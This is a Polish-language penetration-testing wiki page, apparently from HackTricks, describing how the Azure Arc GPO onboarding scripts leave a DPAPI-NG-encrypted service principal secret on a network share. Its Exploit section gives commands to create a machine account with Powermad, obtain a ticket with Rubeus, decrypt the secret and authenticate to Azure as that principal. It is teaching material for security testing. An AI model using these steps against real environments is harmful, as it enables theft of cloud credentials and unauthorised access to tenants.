 # Az - Arc podatny skrypt wdrażania GPO

{{#include ../../../banners/hacktricks-training.md}}

### Identyfikacja problemów

Azure Arc umożliwia integrację nowych serwerów wewnętrznych (serwery dołączone do domeny) z Azure Arc za pomocą metody obiektu zasad grupy. Aby to ułatwić, Microsoft udostępnia zestaw narzędzi do wdrażania niezbędny do rozpoczęcia procedury onboardingu. W pliku ArcEnableServerGroupPolicy.zip znajdują się następujące skrypty: DeployGPO.ps1, EnableAzureArc.ps1 oraz AzureArcDeployment.psm1.

Po uruchomieniu skrypt DeployGPO.ps1 wykonuje następujące czynności:

1. Tworzy GPO onboardingu serwerów Azure Arc w lokalnej domenie.
2. Kopiuje skrypt onboardingu EnableAzureArc.ps1 do wyznaczonego udziału sieciowego utworzonego na potrzeby procesu onboardingu, który zawiera również pakiet instalacyjny Windows.

Podczas uruchamiania tego skryptu, administratorzy systemów muszą podać dwa główne parametry: **ServicePrincipalId** oraz **ServicePrincipalClientSecret**. Dodatkowo wymagane są inne parametry, takie jak domena, FQDN serwera hostującego udział oraz nazwa udziału. Dalsze szczegóły, takie jak identyfikator najemcy, grupa zasobów i inne niezbędne informacje, muszą być również dostarczone do skryptu.

W katalogu AzureArcDeploy na określonym udziale generowany jest zaszyfrowany sekret przy użyciu szyfrowania DPAPI-NG. Zaszyfrowany sekret jest przechowywany w pliku o nazwie encryptedServicePrincipalSecret. Dowody na to można znaleźć w skrypcie DeployGPO.ps1, gdzie szyfrowanie jest realizowane przez wywołanie ProtectBase64 z $descriptor i $ServicePrincipalSecret jako wejściami. Deskriptor składa się z SID-ów grupy komputerów domenowych i kontrolerów domeny, co zapewnia, że ServicePrincipalSecret może być odszyfrowany tylko przez grupy zabezpieczeń kontrolerów domeny i komputerów domenowych, jak zauważono w komentarzach skryptu.
```bash
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### Exploit

Mamy następujące warunki:

1. Sukcesywnie przeniknęliśmy do wewnętrznej sieci.
2. Mamy możliwość utworzenia lub przejęcia kontroli nad kontem komputera w Active Directory.
3. Odkryliśmy udział sieciowy zawierający katalog AzureArcDeploy.

Istnieje kilka metod uzyskania konta maszyny w środowisku AD. Jedną z najczęstszych jest wykorzystanie kwoty konta maszyny. Inną metodą jest kompromitacja konta maszyny poprzez podatne ACL lub różne inne błędne konfiguracje.
```bash
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
Po uzyskaniu konta maszyny możliwe jest uwierzytelnienie się za pomocą tego konta. Możemy użyć polecenia runas.exe z flagą netonly lub użyć pass-the-ticket z Rubeus.exe.
```bash
runas /user:fake01$ /netonly powershell
```

```bash
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
Mając TGT dla naszego konta komputerowego przechowywanego w pamięci, możemy użyć następującego skryptu do odszyfrowania sekretu głównego usługi.
```bash
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
Alternatywnie, możemy użyć [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG).

W tym momencie możemy zebrać pozostałe informacje potrzebne do połączenia z Azure z pliku ArcInfo.json, który jest przechowywany w tym samym udostępnionym zasobie sieciowym co plik encryptedServicePrincipalSecret. Plik ten zawiera szczegóły takie jak: TenantId, servicePrincipalClientId, ResourceGroup i inne. Z tymi informacjami możemy użyć Azure CLI do uwierzytelnienia się jako skompromitowany service principal.

## References

- [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)

{{#include ../../../banners/hacktricks-training.md}}
